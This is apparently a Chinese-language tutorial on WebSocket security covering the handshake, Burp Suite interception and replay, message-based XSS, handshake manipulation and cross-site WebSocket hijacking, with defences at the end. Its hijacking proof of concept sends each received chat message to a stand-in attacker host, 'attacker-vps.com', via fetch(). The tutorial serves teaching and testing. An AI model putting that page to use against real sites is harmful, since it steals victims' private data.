





# WebSocket

## 介绍

### 1. 什么是 WebSocket

WebSocket是通过HTTP协议发起的一个双向全双工的通信协议。WebSocket协议被广泛用在现代WEB程序中用于数据流的传输和异步通信。

### 2. WebSocket 和 HTTP 的区别

大多数的Web浏览器和Web网站都是使用HTTP协议进行通信的。通过HTTP协议，客户端发送一个HTTP请求，然后服务器返回一个响应。通常来说，服务端返回一个响应后，这个HTTP请求事务就已经完成了。即使这个HTTP连接处于keep-alive的状态，它们之间的每一个工作(事务)依然是请求与响应，请求来了，响应回去了。这个事务就结束了。所以通常来说，HTTP协议是一个基于事务性的通信协议。

而WebSocket呢，它通常是由HTTP请求发起建立的，建立连接后，会始终保持连接状态。客户端和服务端可以随时随地的通过一个WebSocket互发消息，没有所谓事务性的特点。这里要注意了，源于其双向全双工的通信特点，在一个WebSocket连接中，服务端是可以主动发送消息的哦，这一点已经完全区别于HTTP协议了。

因此，基于以上特点，WebSocket通常用于低延迟和允许服务器发送消息的场景。例如，金融行业常用WebSocket来传输实时更新的数据

### 3. WebSocket 的建立

```javascript
var ws = new WebSocket("wss://normal-website.com/chat");
```

> wss协议通过TLS连接建立一个WebSocket；ws协议是不经过加密的连接。

### 4. WebSocket 握手

> 通过HTTP协议，客户端和服务端进行一个WebSocket握手。

客户端握手请求：

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

如果服务端接受这个连接，它会返回一个WebSocket回复：

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

之后，这个WebSocket的网络连接会保持开启状态，任意一方都可以直接发送WebSocket信息.

> 关于WebSocket握手时的一些特性：
>
> * `Connection`和`Upgrade`头部用来标识这是一个WebSocket握手消息。
> * `Sec-WebSocket-Version`请求头明确了一个客户端希望使用的WebSocket协议版本。版本`13`最常用。
> * `Sec-WebSocket-Key`请求头包含了一个base64编码的随机值，在每个WebSocket握手请求中，它一定是随机生成的。
> * `Sec-WebSocket-Accept`响应头的值是客户端发送的握手请求中`Sec-WebSocket-key`的哈希值，并与协议规范中定义的特定字符串连接。这样做的目的是匹配每一对握手请求，防止由于错误的配置或者缓存代理导致的连接错误。

### 5. WebSocket 的消息体样子

一旦一个WebSocket建立成功后，客户端和服务端任意一方都可以立即异步的发送消息。

例如，客户端可以通过JavaScirpt来简单的发送一个的消息：

```javascript
ws.send("From WgpSec.2h0ng.");
```

本质上，WebSocket消息体可以包含任意数据格式的内容。在现代应用程序中，通过WebSocket发送JSON格式的消息体比较常见。

例如，一个聊天机器人的WEB程序可以使用WebSocket发送如下的内容:

```javascript
{"user":"2h0ng","content":"Hello 2h0ng!"}
```

## 操控 WebSocket

> 寻找WebSockets的安全漏洞最常用的方法就是，操纵WebSocket的通信流，通过非预期的输入来进行安全测试。本章节主要讨论，如何操纵WebSocket的通信流，以及和操纵普通的HTTP通信相比，操控WebSocket通信时要注意哪些问题。

### 1. 拦截和修改WebSocket信息

和HTTP报文的测试流程一样，你可以使用Burp Proxy来拦截和修改WebSocket消息。

* 配置你的浏览器使用Burp Suite作为它的代理服务器
* Proxy -> Intrecept is on，测试使用WebSocket的功能点，拦截后，你可以查看或者修改它。

<figure><figcaption></figcaption></figure>

* Proxy -> Intrecept is off，测试使用WebSocket的功能点，然后你可以在Proxy -> WebSockets history中查看历史发送与接受的WebSocket消息。

<figure><figcaption></figcaption></figure>

### 2. 重放和生成一个新的WebSocket消息

除了拦截和修改一个WebSocket消息之外，你可能也需要重放或者新生成一个WebSocket消息。你可以通过Burp Repeater来实现这些

* 在Burp Proxy中，在Intercept标签或者WebSockets history中选择一个WebSocket消息，右键发送到Repeater中。
* 在Burp Repeater中，你可以编辑被选择的WebSocket消息，然后再次发送它。
* 你也可以在Repeater输入一个新的WebSocket消息然后将它发送给任一方向，给你的客户端(浏览器)或者是服务端。
* 在WebSocket Repeater独有的History中，你可以看到我们通过WebSocket连接向客户端(浏览器)或者服务端重发的消息。同时，你也可以选择这个History中的消息进行编辑和重放

<figure><figcaption></figcaption></figure>

### 3. 操控WebSocket连接

当然，除了操控WebSocket双向中传递的消息体之外，我们也可以操纵WebSocket的握手环节。这可以引入一些有趣的高级的攻击手法。例如：WebSocket跨域劫持，

有很多场景下，操控WebSocket握手连接是非常有必要的：

* 它可以扩展你的攻击面
* 一些攻击手法可能会导致你的连接断开，所以你需要去重新建立一个新的连接
* Token或者其它的数据在原始的握手请求中可能被窃取或者需要更新

你可以通过刚才讲到的Burp Repeater操控WebSocket握手：

* 发送一个WebSocket消息到Burp Repeater中。
* 在Burp Repeater中，点击消息框右上角的小铅笔图标，选择一个WebSocket URL。然后在这个功能栏的下边你可以选择接入已经建立连接的WebSocket、克隆已经建立连接的WebSocket、或者重新连接一个已经断开连接的WebSocket。然后向导会根据你的操作给你一个详细的步骤，跟着做，修改消息体、或者是输入一个新的握手包。
* 输入或修改结束后点击Connect，Burp会发送你的配置的握手包，然后展示详细的执行结果。如果一个新的WebSocket连接被成功的建立，你可以在Repeater中来通过这个Socket发送新的消息包。

<figure><figcaption></figcaption></figure>

## 影响

* 用户的输入被服务器以不安全的方式进行处理，导致了例如SQL注入、XXE等注入攻击。
* 一些盲注漏洞可能会通过WebSocket引起，可以利用带外技术 (opens new window)进行探测。
* 如果攻击者控制的数据通过WebSocket传输到了其它用户的客户端处，这可能会引起XSS或者其它客户端类型的漏洞

## 攻击

### 1. 操控 WebSocket 消息以利于漏洞

大多数的 WebSocket 漏洞都可以通过修改 WebSocket 消息内容来发现和利用。

例如，假设聊天应用程序使用 WebSockets 在浏览器和服务器之间发送聊天消息。当用户键入聊天消息时，将向服务器发送如下 WebSocket 消息：

```json
{"message":"Hello Carlos"}
```

消息的内容被传输（再次通过 WebSockets）到另一个聊天用户，并在用户的浏览器中呈现如下：

```html
<td>Hello Carlos</td>
```

在这种情况下，如果没有其他输入处理或防御在起作用，攻击者可以通过提交以下 WebSocket 消息来执行概念验证 XSS 攻击：

```json
{"message":""}
```

### 2. 操控 WebSocket 握手进行利用

某些 WebSockets 漏洞只能通过操纵 WebSocket 握手来发现和利用，这些漏洞往往涉及设计缺陷，例如：

* 错误地信任 HTTP 标头来执行安全决策，例如`X-Forwarded-For`标头。
* 会话处理机制的缺陷，因为处理 WebSocket 消息的会话上下文通常由握手消息的会话上下文决定。
* 应用程序使用的自定义 HTTP 标头引入的攻击面。

### 3. 使用跨站点 WebSockets 来利用漏洞

当攻击者从攻击者控制的网站建立跨域 WebSocket 连接时，会出现一些 WebSockets 安全漏洞，这被称为 WebSocket 跨站点劫持攻击，它涉及利用 WebSocket 握手上的 CSRF 漏洞，攻击通常会产生验证影响，允许攻击者代表受害用户执行特权操作或捕获受害用户有权访问的敏感数据。

#### 1. 什么是跨站WebSocket劫持？

跨站WebSocket劫持（也称为跨域WebSocket劫持）是一种由于WebSocket握手流程的安全缺陷所导致的跨站点请求伪造（CSRF）漏洞。

当WebSocket握手请求仅依靠HTTP cookie进行会话处理并且不包含任何CSRF token或其他不可预测的值时，就会出现这种漏洞。

攻击者可以在自己的站点上创建一个恶意网页，从而建立与易受攻击的应用程序的跨站点WebSocket连接。 该应用程序将在受害用户与该应用程序的会话的上下文中处理连接。

然后，攻击者的页面可以通过WebSocket连接向服务器发送任意消息，并读取从服务器接收回的消息内容。 这意味着，与常规的CSRF不同，攻击者可以与受攻击的应用程序进行双向交互。

#### 2. 跨站WebSocket劫持的危害

一个成功的跨站WebSocket劫持攻击通常会使攻击者能够：

* 伪装成受害者用户来执行未经授权的行为，与常规CSRF一样，攻击者可以将任意消息发送到服务器端应用程序。 如果应用程序使用客户端生成的WebSocket消息执行任何敏感操作，则攻击者可以跨域生成合适的消息并触发这些操作。例如绑定手机号、修改密码等。
* 访问受害者的敏感数据。 与常规CSRF不同，跨站点WebSocket劫持使攻击者可以通过被劫持的WebSocket与易受攻击的应用程序进行双向交互。 如果应用程序使用服务器生成的WebSocket消息将任何敏感数据返回给用户，则攻击者可以拦截这些消息并捕获受害用户的数据。这意味着无需跨域方法的支持(JSONP、CORS)，也可以读取受害者的数据。

#### 3. 如何进行一个跨站WebSocket劫持攻击

由于跨站点WebSocket劫持攻击本质上是WebSocket握手上的CSRF漏洞，因此执行攻击的第一步是检查应用程序执行的WebSocket握手过程是否针对CSRF进行了保护。

就正常的CSRF攻击流程而言，通常需要找到一个握手消息，该消息仅依赖HTTP cookie进行会话处理，并且在请求参数中不使用任何token或其他不可预测的值。

例如，以下WebSocket握手请求可能容易受到CSRF的攻击，因为唯一的session token是在cookie中传输的：

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

> 注意:`Sec-WebSocket-Key` 请求头包含的随机值主要用于防止代理服务器缓存错误，并且不用于身份验证或会话处理目的。

如果WebSocket握手请求易受CSRF的攻击，则攻击者的网页可以执行跨站点请求，与易受攻击的服务器后端接口建立WebSocket。 攻击中接下来发生的事情完全取决于应用程序的逻辑以及它如何使用WebSockets。 攻击可能涉及：

* 发送WebSocket消息以代表受害用户执行未经授权的操作。
* 发送WebSocket消息以检索敏感数据。
* 有时，可能只需要等待包含敏感数据的消息发送过来。

例如，一个跨站WebSocket劫持读取用户聊天记录的POC如下，用户在建立WebSocket连接后，向服务器发送'READY'字符串，即可接收到服务器传来的历史聊天记录。

```javascript
<html>
<script>
// Create WebSocket connection.
var ws = new WebSocket("wss://vulnerable-site.com/chat");

// Connection opened
ws.addEventListener('open', function (event) {
    ws.send('READY');
});

// Listen for messages
ws.onmessage = function(event) {
  fetch('https://attacker-vps.com/?log'+event.data, {mode: 'no-cors'})
};
</script>
</html>
```

## 防御

* 使用 wss:// 协议
* 硬编码WebSockets的URL接口，以保证用户的输入无法篡改此URL。
* 将通过 WebSocket 接收的数据在两个方向都视为不可信的。在服务器端和客户端安全地处理数据，以防止基于输入的漏洞，如 SQL 注入和跨网站脚本。
* 使用CSRF Token、请求头令牌等方案保护WebSocket握手流程，防止WebSocket握手流程被CSRF攻击所利用。

## 结合

<figure><figcaption></figcaption></figure>

### 1. WebSocket & CSRF

### 2. WebSocket & SQLI

### 3. WebSocket & XSS

## 参考文章

* [portswigger 学院](https://portswigger.net/web-security/websockets)
* [狼组安全团队公开知识库](https://wiki.wgpsec.org/knowledge/web/websocket-sec.html)
